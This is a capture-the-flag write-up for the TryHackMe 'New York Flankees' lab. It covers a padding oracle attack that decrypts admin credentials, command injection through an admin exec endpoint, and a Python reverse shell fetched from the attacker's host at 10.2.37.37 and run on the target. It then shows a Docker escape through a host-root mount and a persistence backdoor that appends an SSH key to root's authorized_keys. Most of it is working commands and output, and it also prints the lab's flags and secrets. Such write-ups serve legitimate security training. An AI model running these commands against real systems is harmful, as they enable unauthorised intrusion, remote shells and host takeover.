

# TryHackMe-New York Flankees

**Scope:**

- Escape for Docker Container
- ORACLE AES/CBC/PKCS
- Padding Oracle Attack

**Keywords:**

- Admin Panel Access
- ORACLE AES/CBC/PKCS Analysis
- Padding Oracle Attack
- padre-linux-amd64
- padbuster
- Command Execution
- Python Payload
- Escape for Docker Container
- deepce.sh
- Docker Enumeration
- SSH Connection with ID PUB

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -F -Pn $target_ip`
- `curl -iLX GET http://newyorkflankess.thm:8080`
- `curl -iLX GET 'http://newyorkflankess.thm:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'`
- `chmod +x padre-linux-amd64`
- `./padre-linux-amd64 -p 64 -err "Decryption error" -e lhex -u 'http://newyorkflankess.thm:8080/api/debug/$' '39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'`
- `padbuster  http://newyorkflankess.thm:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 "39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" 16 -encoding 1`
- `curl -iL -X $'GET' $'http://newyorkflankess.thm:8080/api/login?username=stefan1197&password=ebb2B76%4062%23f%3F%3F7cA6B76%406%21%4062%23f6dacd2599'`
- `curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=id'`
- `curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=python3%20-v'`
- `python3 -m http.server 8000`
- `curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=curl%20http://10.2.37.37:8000/reversepython.py%20-o%20/tmp/reversepython.py'`
- `curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=chmod%20+x%20/tmp/reversepython.py'`
- `curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=python3%20/tmp/reversepython.py'`
- `cat /root/.ssh/id_ed25519.pub`
- `ssh -i /root/.ssh/id_ed25519 -o MACs=hmac-sha2-256 root@newyorkflankess.thm -p 22`

**System Commands:**

- `python3 -c 'import pty;pty.spawn("/bin/bash");'`
- `export TERM=xterm`
- `whoami`
- `env`
- `cat /app/docker-compose.yml`
- `docker image ls`
- `docker run -v /:/host --rm -it openjdk:11 sh`
- `wget http://10.2.37.37:8000/deepce.sh`
- `chmod +x deepce.sh`
- `./deepce.sh`
- `echo 'ssh-ed25519 [REDACTED] - SECRET root@kali' >> /host/root/.ssh/authorized_keys`

### Laboratory Environment

[New York Flankees](https://tryhackme.com/r/room/thenewyorkflankees)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -F -Pn $target_ip`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 34:5e:39:aa:2d:25:de:2e:3b:58:bf:45:ed:df:b5:40 (RSA)
|   256 f7:d1:5a:39:37:a8:86:19:ef:6d:94:03:fa:07:1b:ba (ECDSA)
|_  256 90:24:4e:fe:19:9a:46:28:77:63:d6:ae:a4:a3:b2:e8 (ED25519)
8080/tcp open  http    Octoshape P2P streaming web service
|_http-title: Hello world!
```

> **HTTP Port Check**
> 

`curl -iLX GET http://newyorkflankess.thm:8080`

```bash
HTTP/1.1 200 OK
Content-Length: 4332
Content-Type: text/html; charset=UTF-8

</head>
<body>
<!-- Navbar -->
<nav class="navbar navbar-expand-lg navbar-light bg-light">
    <a class="navbar-brand" href="./index.html">Blog</a>
    <a class="navbar-brand" href="./debug.html">Stefan Test</a>
    <button class="btn btn-primary admin-login-btn">Admin Login</button>
</nav>

<div class="container mt-4">
    <!-- Blog Post -->
    <div class="blog-post">
        <h2 class="blog-post-title">Hello world!</h2>
        <p class="blog-post-content">Once upon a time, in the bustling city of New York, there was a young man named Stefan. Stefan had always been fascinated by cryptography, spending countless hours delving into the intricacies of encryption algorithms and deciphering codes.</p>
        <p class="blog-post-content">One day, while attending a baseball game of his beloved team, the Flankees, Stefan had a moment of inspiration. As the crowd cheered and the players battled it out on the field, Stefan's mind raced with ideas. What if he could create some kind of custom authentication mechanism that did not suffer from the weaknesses of basic authentication.</p>
        <p class="blog-post-content">This blog is used to document Stefan's ideas and test his implementation - it is sponsored by his company <b>Oracle</b></p>
        
    </div>
</div>

<script>
    document.addEventListener('DOMContentLoaded', function() {
        // Check if the "isLoggedIn" cookie exists
        const isLoggedIn = document.cookie.includes('loggedin');

        // Get the admin login button element
        const adminLoginBtn = document.querySelector('.admin-login-btn');

        // If the "isLoggedIn" cookie exists, change the button text to "FINDME"
        if (isLoggedIn) {
            adminLoginBtn.textContent = 'DEBUG';
        }

        // Add event listener to the admin login button
        adminLoginBtn.addEventListener('click', function() {
            // If the user is not logged in, redirect to login.html
            if (!isLoggedIn) {
                window.location.href = 'login.html';
            } else {
                window.location.href = 'exec.html'
            }
        });
    });
</script>
</body>
</html>
```

`curl -iLX GET http://newyorkflankess.thm:8080/debug.html`

```bash
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 2638

</head>
<body onload="stefanTest1002()" class="bg-light">
<div class="container">
    <h1 class="mt-5 mb-4">Stefan Debug Page</h1>
    <div class="row">
        <div class="col-md-6">
            <div class="callout">
                <div class="callout-title">TODO: Implement custom authentication</div>
                <p>Your custom authentication implementation goes here.</p>
            </div>
        </div>
        <div class="col-md-6">
            <div class="callout">
                <div class="callout-title">TODO: Fix verbose error (padding)</div>
                <p>Fix the verbose error related to padding.</p>
            </div>
        </div>
    </div>
</div>

<script>
    function stefanTest1002() {
        var xhr = new XMLHttpRequest();
        var url = "http://localhost/api/debug";
        // Submit the AES/CBC/PKCS payload to get an auth token
        // TODO: Finish logic to return token
        xhr.open("GET", url + "/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4", true);

        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) {
                console.log("Response: ", xhr.responseText);
            } else {
                console.error("Failed to send request.");
            }
        };
        xhr.send();
    }
</script>
</body>
</html>
```

> **ORACLE AES/CBC/PKCS & API Test Phase**
> 

**For more information:**

[Padding Oracle | HackTricks](https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv)

`curl -iLX GET 'http://newyorkflankess.thm:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'`

```bash
HTTP/1.1 200 OK
Content-Length: 29
Content-Type: text/plain; charset=UTF-8

Custom authentication success
```

> **Padding Oracle Attack Phase**
> 

`wget https://github.com/glebarez/padre/releases/download/v2.1.0/padre-linux-amd64`

```bash
padre-linux-amd64                    100%[====================================================================>]   6.55M  7.33MB/s    in 0.9s    

2024-10-10 06:52:52 (7.33 MB/s) - 'padre-linux-amd64' saved [6868776/6868776]
```

**For source:**

[https://github.com/glebarez/padre](https://github.com/glebarez/padre)

`chmod +x padre-linux-amd64`

`./padre-linux-amd64 -p 64 -err "Decryption error" -e lhex -u 'http://newyorkflankess.thm:8080/api/debug/$' '39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'`

```bash
[i] padre is on duty
[i] using concurrency (http connections): 64
[+] padding oracle confirmed
[+] detected block length: 16
[!] mode: decrypt
[1/1] stefan1197:ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f [64/64] | reqs: 7661 (90/sec)
      [!] Output was too wide to fit to you terminal. Redirect STDOUT somewhere to get full output
```

`padbuster  http://newyorkflankess.thm:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 "39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" 16 -encoding 1`

```bash
[+] Success: (133/256) [Byte 16]
[+] Success: (250/256) [Byte 15]
[+] Success: (254/256) [Byte 14]
[+] Success: (174/256) [Byte 13]

[REDACTED] - SAME RESULT
```

> **Command Execution & Admin Panel Access Phase**
> 

`curl -iLX GET http://newyorkflankess.thm:8080/login.html`

```bash
HTTP/1.1 200 OK
Content-Length: 2670
Content-Type: text/html; charset=UTF-8

</head>
<body>
<div class="container">
    <div class="login-container">
        <div class="img-container">
            
        </div>
        <form class="login-form" action="/api/login" method="get">
            <div class="form-group">
                <input type="text" class="form-control" id="username" name="username" placeholder="Username">
            </div>
            <div class="form-group">
                <input type="password" class="form-control" id="password" name="password" placeholder="Password">
            </div>
            <button type="submit" class="btn btn-primary btn-login">Login</button>
        </form>
    </div>
</div>
</body>
</html>

```



`curl -iL -X $'GET' $'http://newyorkflankess.thm:8080/api/login?username=stefan1197&password=ebb2B76%4062%23f%3F%3F7cA6B76%406%21%4062%23f6dacd2599'`

```bash
HTTP/1.1 307 Temporary Redirect
Set-Cookie: session=3e593c9dc0a88b95d333908493f14320a2dec2bd60f49f2c6d7e47c07cf649a7; Max-Age=432000; Path=/; HttpOnly; $x-enc=URI_ENCODING
Set-Cookie: loggedin=true; Max-Age=432000; Path=/; $x-enc=URI_ENCODING
Location: /index.html
Content-Length: 0
Content-Type: text/plain; charset=UTF-8

HTTP/1.1 200 OK
Content-Length: 4332
Content-Type: text/html; charset=UTF-8

</head>
<body>
<!-- Navbar -->
<nav class="navbar navbar-expand-lg navbar-light bg-light">
    <a class="navbar-brand" href="./index.html">Blog</a>
    <a class="navbar-brand" href="./debug.html">Stefan Test</a>
    <button class="btn btn-primary admin-login-btn">Admin Login</button>
</nav>

<div class="container mt-4">
    <!-- Blog Post -->
    <div class="blog-post">
        <h2 class="blog-post-title">Hello world!</h2>
        <p class="blog-post-content">Once upon a time, in the bustling city of New York, there was a young man named Stefan. Stefan had always been fascinated by cryptography, spending countless hours delving into the intricacies of encryption algorithms and deciphering codes.</p>
        <p class="blog-post-content">One day, while attending a baseball game of his beloved team, the Flankees, Stefan had a moment of inspiration. As the crowd cheered and the players battled it out on the field, Stefan's mind raced with ideas. What if he could create some kind of custom authentication mechanism that did not suffer from the weaknesses of basic authentication.</p>
        <p class="blog-post-content">This blog is used to document Stefan's ideas and test his implementation - it is sponsored by his company <b>Oracle</b></p>
        
    </div>
</div>

<script>
    document.addEventListener('DOMContentLoaded', function() {
        // Check if the "isLoggedIn" cookie exists
        const isLoggedIn = document.cookie.includes('loggedin');

        // Get the admin login button element
        const adminLoginBtn = document.querySelector('.admin-login-btn');

        // If the "isLoggedIn" cookie exists, change the button text to "FINDME"
        if (isLoggedIn) {
            adminLoginBtn.textContent = 'DEBUG';
        }

        // Add event listener to the admin login button
        adminLoginBtn.addEventListener('click', function() {
            // If the user is not logged in, redirect to login.html
            if (!isLoggedIn) {
                window.location.href = 'login.html';
            } else {
                window.location.href = 'exec.html'
            }
        });
    });
</script>
</body>
</html>
```


`curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=id'`

```bash
HTTP/1.1 200 OK
Content-Length: 2
Content-Type: text/plain; charset=UTF-8

OK 
```

`curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=python3%20-v'`

```bash
HTTP/1.1 200 OK
Content-Length: 2
Content-Type: text/plain; charset=UTF-8

OK 
```

> **Reverse Shell & Privilege Escalation with Code Execution Phase**
> 

`nano reversepython.py`

```bash
import os,pty,socket;s=socket.socket();s.connect(("10.2.37.37",11445));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")
```

`python3 -m http.server 8000`

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=curl%20http://10.2.37.37:8000/reversepython.py%20-o%20/tmp/reversepython.py'`

```bash
HTTP/1.1 200 OK
Content-Length: 2
Content-Type: text/plain; charset=UTF-8

OK 
```

`curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=chmod%20+x%20/tmp/reversepython.py'`

```bash
HTTP/1.1 200 OK
Content-Length: 2
Content-Type: text/plain; charset=UTF-8

OK 
```

`nc -nlvp 11445`

```bash
listening on [any] 11445 ...
```

`curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=python3%20/tmp/reversepython.py'`

```bash
listening on [any] 11445 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.223.218] 43520
root@02e849f307cc:/# python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
root@02e849f307cc:/# export TERM=xterm
export TERM=xterm
root@02e849f307cc:/# whoami
whoami
root
root@02e849f307cc:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@02e849f307cc:/# pwd
pwd
/
root@02e849f307cc:/# 
```

> **Escape for Docker Container Phase**
> 

**For more information:**

[Docker Breakout / Privilege Escalation | HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#mounted-docker-socket-escape)

```bash
root@02e849f307cc:/# ls -lsa /app

total 14672
    4 drwxr-xr-x 1 root root     4096 May  8 12:25 .
    4 drwxr-xr-x 1 root root     4096 May  8 12:25 ..
    4 drwxr-xr-x 8 root root     4096 May  8 12:20 .git
    4 -rw-r--r-- 1 root root      435 May  8 12:20 .gitignore
    4 -rw-r--r-- 1 root root      381 May  8 12:20 Dockerfile
    4 -rw-r--r-- 1 root root       58 May  8 12:20 README.md
    4 -rw-r--r-- 1 root root      809 May  8 12:20 build.gradle.kts
    4 -rw-r--r-- 1 root root      602 May  8 12:20 docker-compose.yml
    4 drwxr-xr-x 3 root root     4096 May  8 12:20 gradle
    4 -rw-r--r-- 1 root root       92 May  8 12:20 gradle.properties
    8 -rwxr-xr-x 1 root root     8070 May  8 12:20 gradlew
    4 -rw-r--r-- 1 root root     2674 May  8 12:20 gradlew.bat
14612 -rw-r--r-- 1 root root 14959809 May  8 12:24 ktor-docker-sample.jar
    4 -rw-r--r-- 1 root root       30 May  8 12:20 settings.gradle.kts
    4 drwxr-xr-x 4 root root     4096 May  8 12:20 src
    
root@02e849f307cc:/# env
env
HOSTNAME=02e849f307cc
JAVA_HOME=/usr/local/openjdk-11
PWD=/
CTF_USERNAME=stefan1197
HOME=/root
LANG=C.UTF-8
CTF_DOCKER_FLAG=THM{342878cd14051bd787352ee73c75381b1803491e4e5ac729a91a03e3c889c2bf}
CTF_RESOURCES=/app/src/resources
CTF_ENCRYPTION_IV=956a591992734c68
TERM=xterm
SHLVL=2
CTF_ENCRYPTION_KEY=2d3981f51f18b0b9568521bb39f06e5b
PATH=/usr/local/openjdk-11/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CTF_ADMIN_PANEL_FLAG=THM{a4113536187c6e84637a1ee2ec5359eca17bbbd1b2629b23dbfd3b4ce2f30604}
CTF_PASSWORD=ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599
JAVA_VERSION=11.0.16
_=/usr/bin/env
OLDPWD=/root

root@02e849f307cc:/# cat /app/docker-compose.yml    
cat /app/docker-compose.yml
version: "3"
services:
  web:
    build: .
    ports:
      - "8080:8080"
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    restart: always
    environment:
      - CTF_USERNAME=stefan1197
      - CTF_PASSWORD=ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599
      - CTF_ENCRYPTION_KEY=2d3981f51f18b0b9568521bb39f06e5b
      - CTF_ENCRYPTION_IV=956a591992734c68
      - CTF_RESOURCES=/app/src/resources
      - CTF_DOCKER_FLAG=THM{342878cd14051bd787352ee73c75381b1803491e4e5ac729a91a03e3c889c2bf}
      - CTF_ADMIN_PANEL_FLAG=THM{a4113536187c6e84637a1ee2ec5359eca17bbbd1b2629b23dbfd3b4ce2f30604}
      
root@02e849f307cc:/# docker image ls
REPOSITORY               TAG       IMAGE ID       CREATED        SIZE
padding-oracle-app_web   latest    cd6261dd9dda   5 months ago   1.01GB
<none>                   <none>    4187efabd0a5   5 months ago   704MB
gradle                   7-jdk11   d5954e1d9fa4   5 months ago   687MB
openjdk                  11        47a932d998b7   2 years ago    654MB

root@02e849f307cc:/# docker run -v /:/host --rm -it openjdk:11 sh

# whoami
whoami
root
# id
id
uid=0(root) gid=0(root) groups=0(root)
# pwd
pwd
/
# python3 -c 'import pty;pty.spawn("/bin/bash");
root@b80c81ac62ee:/# export TERM=xterm
root@b80c81ac62ee:/# 
```

`wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh`

```bash
deepce.sh                            100%[====================================================================>]  38.49K  --.-KB/s    in 0.04s   

2024-10-10 07:36:03 (945 KB/s) - 'deepce.sh' saved [39417/39417]
```

**For source:**

[https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce)

```bash
root@b80c81ac62ee:/# wget http://10.2.37.37:8000/deepce.sh

deepce.sh           100%[===================>]  38.49K  56.1KB/s    in 0.7s    

2024-10-10 11:37:55 (56.1 KB/s) - ‘deepce.sh’ saved [39417/39417]

root@b80c81ac62ee:/# chmod +x deepce.sh
root@b80c81ac62ee:/# ./deepce.sh

==========================================( Colors )==========================================
[+] Exploit Test ............ Exploitable - Check this out
[+] Basic Test .............. Positive Result
[+] Another Test ............ Error running check
[+] Negative Test ........... No
[+] Multi line test ......... Yes
Command output
spanning multiple lines                                                                                                                           

Tips will look like this and often contains links with additional info. You can usually 
ctrl+click links in modern terminal to open in a browser window                                                                                   
See https://stealthcopter.github.io/deepce                                                                                                        

===================================( Enumerating Platform )===================================
[+] Inside Container ........ Yes
[+] Container Platform ...... docker
[+] Container tools ......... None
[+] User .................... root
[+] Groups .................. root
[+] Sudoers ................. No
[+] Docker Executable ....... Not Found
[+] Docker Sock ............. Not Found
[+] Docker Version .......... Version Unknown
==================================( Enumerating Container )===================================
[+] Container ID ............ b80c81ac62ee
[+] Container Full ID ....... b80c81ac62ee02dc1bb9c68330b8066e13ac4dcf290d0665594ff375f73ba0c3
[+] Container Name .......... Could not get container name through reverse DNS
[+] Container IP ............ 172.17.0.2 
[+] DNS Server(s) ........... 10.0.0.2 
[+] Host IP ................. 172.17.0.1
[+] Operating System ........ GNU/Linux
[+] Kernel .................. 5.4.0-1029-aws
[+] Arch .................... x86_64
[+] CPU ..................... Intel(R) Xeon(R) CPU E5-2686 v4 @ 2.30GHz
[+] Useful tools installed .. Yes
/usr/bin/curl
/usr/bin/wget                                                                                                                                     
/bin/hostname                                                                                                                                     
/usr/bin/python3                                                                                                                                  
[+] Dangerous Capabilities .. capsh not installed, listing raw capabilities
libcap2-bin is required but not installed
apt install -y libcap2-bin

Current capabilities are:
CapInh: 0000000000000000
CapPrm: 00000000a80425fb                                                                                                                          
CapEff: 00000000a80425fb                                                                                                                          
CapBnd: 00000000a80425fb                                                                                                                          
CapAmb: 0000000000000000                                                                                                                          
> This can be decoded with: "capsh --decode=00000000a80425fb"
[+] SSHD Service ............ No
[+] Privileged Mode ......... Unknown
====================================( Enumerating Mounts )====================================
[+] Docker sock mounted ....... No
[+] Other mounts .............. Yes
/snapd/ns /host/run/snapd/ns rw,nosuid,nodev - tmpfs tmpfs rw,size=402820k,mode=755
net:[4026532351] /host/run/docker/netns/2d1bd163ec9d rw master:497 - nsfs nsfs rw                                                                 
net:[4026532288] /host/run/docker/netns/3f80234192bc rw master:363 - nsfs nsfs rw                                                                 
[+] Possible host usernames ...  net:[4026532288]  net:[4026532351]  
====================================( Interesting Files )=====================================
[+] Interesting environment variables ... No
[+] Any common entrypoint files ......... Yes
-rwxr-xr-x 1 root root 39K Oct 10 11:36 /deepce.sh
[+] Interesting files in root ........... No
[+] Passwords in common files ........... No
[+] Home directories .................... No
[+] Hashes in shadow file ............... No
[+] Searching for app dirs .............. 
==================================( Enumerating Containers )==================================
By default containers can communicate with other containers on the same network and the 
host machine, this can be used to enumerate further                                                                                               

Could not ping sweep, requires nmap or ping to be executable
==============================================================================================

root@b80c81ac62ee:/# ls -lsa /host/root/.ssh/
4 drwx------ 2 root root 4096 May  7 19:33 .
4 drwx------ 4 root root 4096 May  8 12:22 ..
4 -rw------- 1 root root 1666 Oct 10 10:23 authorized_keys

root@b80c81ac62ee:/# 
```

`cat /root/.ssh/id_ed25519.pub`

```bash
ssh-ed25519 [REDACTED] - SECRET root@kali
```

```bash
root@b80c81ac62ee:/# echo 'ssh-ed25519 [REDACTED] - SECRET root@kali' >> /host/root/.ssh/authorized_keys
```

`ssh -i /root/.ssh/id_ed25519 -o MACs=hmac-sha2-256 root@newyorkflankess.thm -p 22`

```bash
root@ip-10-10-223-218:~# whoami
root
root@ip-10-10-223-218:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-223-218:~# pwd
/root
root@ip-10-10-223-218:~# 
```

# Appendix

## Escape for Docker Container

<aside>
💡

Escape in the context of Docker containers refers to container escape, which is a security vulnerability or technique where an attacker breaks out of the container's isolation and gains access to the host system. Docker containers are designed to run isolated processes from the host operating system, but if an attacker can escape from the container to the host, they can potentially execute malicious actions on the host system or other containers. Containers may be run with excessive privileges, such as --privileged mode or with capabilities that allow processes within the container to interact with the host system. If improperly configured, these can be exploited to gain access to the host.

</aside>

## ORACLE AES/CBC/PKCS

<aside>
💡

ORACLE AES/CBC/PKCS refers to a combination of cryptographic algorithms and padding schemes commonly used in encryption processes. AES is a symmetric encryption algorithm, meaning the same key is used for both encryption and decryption. CBC is a mode of operation for block ciphers like AES. PKCS (Public Key Cryptography Standards) is a padding scheme used to ensure that the plaintext data fits exactly into blocks required by the block cipher.

</aside>

## Padding Oracle Attack

<aside>
💡

A Padding Oracle Attack is a type of cryptographic attack that targets the padding used in certain encryption schemes, typically block ciphers that use padding, like AES in CBC mode with PKCS#5 or PKCS#7 padding. The attack exploits a vulnerability where the system, known as the "oracle," reveals whether the padding of a decrypted ciphertext is correct or incorrect. This seemingly small piece of information can be used by an attacker to decrypt the ciphertext without knowing the encryption key. Block ciphers, like AES, work by encrypting data in fixed-size blocks (e.g., 16 bytes for AES). If the plaintext is not a multiple of the block size, padding is added to the plaintext to fill up the last block. A common padding scheme is PKCS#7, which appends bytes indicating how many bytes of padding are added. In the context of a padding oracle attack, the "oracle" refers to the system or application that is decrypting the data. The vulnerability arises when the oracle gives different responses based on whether the padding is correct or incorrect after decryption. An attacker can submit modified ciphertexts and observe whether the padding is valid (correct) or not. If an attacker can modify ciphertext and observe the oracle’s behavior (whether it responds with a padding error or a valid message), they can infer details about the plaintext. By carefully crafting inputs and analyzing the oracle’s responses, the attacker can decrypt the ciphertext or even forge new valid ciphertexts without knowing the encryption key.

</aside>